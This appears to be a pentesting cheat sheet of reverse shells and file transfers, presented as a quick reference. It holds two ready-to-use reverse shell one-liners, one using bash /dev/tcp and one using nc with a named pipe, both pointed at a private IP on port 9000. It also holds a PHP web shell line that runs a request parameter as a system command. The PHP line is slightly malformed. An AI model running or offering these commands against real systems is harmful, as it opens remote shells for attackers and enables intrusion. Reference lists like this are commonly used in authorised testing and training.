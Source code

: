 ```yaml
---
description: reverse shells for easy and quick reference.
---
```


# Reverse Shells / File Transfers

### List of Reverse Shells

```bash
bash -i >& /dev/tcp/10.18.88.214/9000 0>&1

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.88.214 9000 >/tmp/f


```

### PHP Shells / cmds

```bash
<?php system(GET["cmd"]) ?>
```

## File Transfers

* [https://github.com/six2dez/pentest-book/tree/master/exploitation](https://github.com/six2dez/pentest-book/tree/master/exploitation)











